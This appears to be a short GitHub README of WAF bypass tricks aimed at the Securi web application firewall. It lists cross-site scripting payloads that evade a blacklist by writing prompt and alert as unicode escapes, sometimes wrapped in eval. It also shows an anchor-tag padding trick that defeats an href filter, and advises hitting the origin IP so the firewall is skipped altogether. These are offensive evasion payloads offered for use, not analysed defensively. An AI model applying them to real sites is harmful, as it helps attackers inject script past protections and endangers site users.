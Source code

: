 # WAF_bypass

## Securi WAF

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```
  
  alert
  ```js
  \u0061lert(0)
  eval(\u0061lert(0))
  ```
  
  ![carbon](https://user-images.githubusercontent.com/94630001/162410201-4e9d2c42-ede6-4c98-b384-76abdf437476.png)


  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```

![image](https://user-images.githubusercontent.com/94630001/162407183-fb7e290d-2ade-4053-a519-1e4781d631f7.png)


## Help 

https://github.com/0xInfection/Awesome-WAF  

